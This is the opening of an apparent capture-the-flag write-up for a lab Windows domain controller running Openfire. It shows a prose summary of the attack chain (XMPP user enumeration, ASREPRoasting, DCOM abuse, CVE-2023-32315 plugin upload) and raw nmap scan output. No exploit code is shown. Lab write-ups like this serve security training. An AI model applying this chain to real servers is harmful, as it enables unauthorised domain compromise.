

## Summary

The box starts with several open ports related to `Jabber` which runs on `Openfire`. After connecting to the `Jabber server` by installing `Pidgin` and creating a new user on the server, it is possible to enumerate several users by enabling the `XMPP Console plugin`. With a sanitized list of users it is possible to find an account which is vulnerable to `ASREPRoast`. The hash can be grabbed by using `impacket-GetNPUsers` for example and cracked with `John` or `hashcat`. By adding the newly found credentials to the configuration in `Pidgin`, it is possible to login as `jmontgomery` and getting access to an internal `room` in which the user `svc_openfire` and a corresponding `password` can be found. A dump of the `Active Directory configuration` with `BloodHound` reveals vulnerable `DCOM group permissions`  for the user `svc_openfire` which leads to code execution and foothold on the box. Based on the knowledge of a `local privilege escalation` within `Openfire Management Dashboard` the local port `TCP/9090` can be forwarded and the dashboard can be accessed as `svc_openfire`. By using a `PoC` for `CVE-2023-32315` a `malicious plugin` can be installed to execute commands on the box as `administrator` which leads to code execution.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
	- [Port Scanning](#Port-Scanning)
	- [Enumeration of Port 7070/TCP](#Enumeration-of-Port-7070TCP)
	- [Enumeration of Port 7443/TCP](#Enumeration-of-Port-7443TCP)
	- [Domain Enumeration](#Domain-Enumeration)
- [Information Gathering](#Information-Gathering)
	- [User Enumeration](#User-Enumeration)
- [ASREPRoast](#ASREPRoast)
- [Cracking the Hash](#Cracking-the-Hash)
- [Jabber Enumeration as jmontgomery](#Jabber-Enumeration-as-jmontgomery)
- [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Foothold](#Foothold)
- [Persistence](#Persistence)
- [Enumeration](#Enumeration)
- [User.txt](#Usertxt)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
	- [CVE-2023-32315](#CVE-2023-32315)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Reconnaissance

### Port Scanning

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.147.202
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-24 14:00 EST
Nmap scan report for 10.129.147.202
Host is up (0.070s latency).
Not shown: 984 closed tcp ports (reset)
PORT     STATE SERVICE             VERSION
53/tcp   open  domain              Simple DNS Plus
88/tcp   open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-02-24 19:02:26Z)
135/tcp  open  msrpc               Microsoft Windows RPC
139/tcp  open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-02-24T19:03:18+00:00; +2m10s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-24T19:03:17+00:00; +2m10s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
3268/tcp open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-24T19:03:18+00:00; +2m10s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
3269/tcp open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-24T19:03:17+00:00; +2m10s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
5222/tcp open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     xmpp: 
|       version: 1.0
|     stream_id: 8nqbepj4v2
|     capabilities: 
|     unknown: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     features: 
|_    compression_methods: 
|_ssl-date: TLS randomness does not represent time
5269/tcp open  xmpp                Wildfire XMPP Client
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     xmpp: 
|     capabilities: 
|     unknown: 
|     errors: 
|       (timeout)
|     features: 
|_    compression_methods: 
7070/tcp open  realserver?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sat, 24 Feb 2024 19:02:26 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sat, 24 Feb 2024 19:02:31 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
7443/tcp open  ssl/oracleas-https?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sat, 24 Feb 2024 19:02:32 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sat, 24 Feb 2024 19:02:38 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
7777/tcp open  socks5              (No authentication; connection not allowed by ruleset)
| socks-auth-info: 
|_  No authentication
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7070-TCP:V=7.94SVN%I=7%D=2/24%Time=65DA3CC0%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2024\x20Feb\x
SF:202024\x2019:02:26\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\x20202
SF:2\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges:\x2
SF:0bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><title>Op
SF:enfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<body><fon
SF:t\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"http://ww
SF:w\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20Service
SF:</b></font></body>\n</html>\n")%r(RTSPRequest,AD,"HTTP/1\.1\x20505\x20U
SF:nknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nC
SF:ontent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\
SF:x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(HTTPOptions,56,
SF:"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2024\x20Feb\x202024\x2019:02:
SF:31\x20GMT\r\nAllow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RPCCheck,C7,"H
SF:TTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-Type:\
SF:x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConnection:
SF:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\
SF:x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTTP/1\.1
SF:\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/ht
SF:ml;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\
SF:r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20charact
SF:er\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400\x20Il
SF:legal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=is
SF:o-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Ba
SF:d\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x
SF:0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Type:\x20
SF:text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnection:\x2
SF:0close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x20URI</
SF:pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20character\x20
SF:CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nContent-L
SF:ength:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</
SF:h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7443-TCP:V=7.94SVN%T=SSL%I=7%D=2/24%Time=65DA3CC6%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2024\x2
SF:0Feb\x202024\x2019:02:32\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\
SF:x202022\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Rang
SF:es:\x20bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><ti
SF:tle>Openfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<bod
SF:y><font\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"htt
SF:p://www\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20S
SF:ervice</b></font></body>\n</html>\n")%r(HTTPOptions,56,"HTTP/1\.1\x2020
SF:0\x20OK\r\nDate:\x20Sat,\x2024\x20Feb\x202024\x2019:02:38\x20GMT\r\nAll
SF:ow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RTSPRequest,AD,"HTTP/1\.1\x205
SF:05\x20Unknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859
SF:-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20M
SF:essage\x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(RPCCheck
SF:,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-
SF:Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConne
SF:ction:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Il
SF:legal\x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTT
SF:P/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20t
SF:ext/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20
SF:close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20c
SF:haracter\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400
SF:\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;char
SF:set=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n
SF:<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20C
SF:NTL=0x0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Typ
SF:e:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnecti
SF:on:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x2
SF:0URI</pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20charact
SF:er\x20CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCon
SF:tent-Length:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x2
SF:0400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m09s, deviation: 0s, median: 2m09s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-24T19:03:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.97 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.147.202
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-24 14:01 EST
Nmap scan report for office.htb (10.129.147.202)
Host is up (0.072s latency).
Not shown: 65500 closed tcp ports (reset)
PORT      STATE SERVICE             VERSION
53/tcp    open  domain              Simple DNS Plus
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-02-24 19:04:00Z)
135/tcp   open  msrpc               Microsoft Windows RPC
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-02-24T19:05:18+00:00; +2m11s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-24T19:05:18+00:00; +2m11s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-24T19:05:19+00:00; +2m11s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
3269/tcp  open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-02-24T19:05:18+00:00; +2m11s from scanner time.
5222/tcp  open  jabber
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     features: 
|     auth_mechanisms: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 2rxb216i8y
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|_    capabilities: 
|_ssl-date: TLS randomness does not represent time
5223/tcp  open  ssl/jabber
|_ssl-date: TLS randomness does not represent time
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     features: 
|     unknown: 
|     errors: 
|       (timeout)
|     xmpp: 
|     auth_mechanisms: 
|     compression_methods: 
|_    capabilities: 
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
5262/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     features: 
|     auth_mechanisms: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 8cyhirp4nz
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|_    capabilities: 
5263/tcp  open  ssl/jabber
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     features: 
|     unknown: 
|     errors: 
|       (timeout)
|     xmpp: 
|     auth_mechanisms: 
|     compression_methods: 
|_    capabilities: 
|_ssl-date: TLS randomness does not represent time
5269/tcp  open  xmpp                Wildfire XMPP Client
| xmpp-info: 
|   Respects server name
|   STARTTLS Failed
|   info: 
|     unknown: 
|     features: 
|     auth_mechanisms: 
|     errors: 
|       host-unknown
|       (timeout)
|     stream_id: 9rurpow9hk
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|_    capabilities: 
5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
5275/tcp  open  jabber
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     features: 
|     auth_mechanisms: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 3gttoug03c
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|_    capabilities: 
5276/tcp  open  ssl/jabber
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     features: 
|     unknown: 
|     errors: 
|       (timeout)
|     xmpp: 
|     auth_mechanisms: 
|     compression_methods: 
|_    capabilities: 
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7070/tcp  open  realserver?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sat, 24 Feb 2024 19:04:00 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sat, 24 Feb 2024 19:04:05 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
7443/tcp  open  ssl/oracleas-https?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sat, 24 Feb 2024 19:04:12 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sat, 24 Feb 2024 19:04:18 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
7777/tcp  open  socks5              (No authentication; connection failed)
| socks-auth-info: 
|_  No authentication
9389/tcp  open  mc-nmf              .NET Message Framing
47001/tcp open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc               Microsoft Windows RPC
49665/tcp open  msrpc               Microsoft Windows RPC
49666/tcp open  msrpc               Microsoft Windows RPC
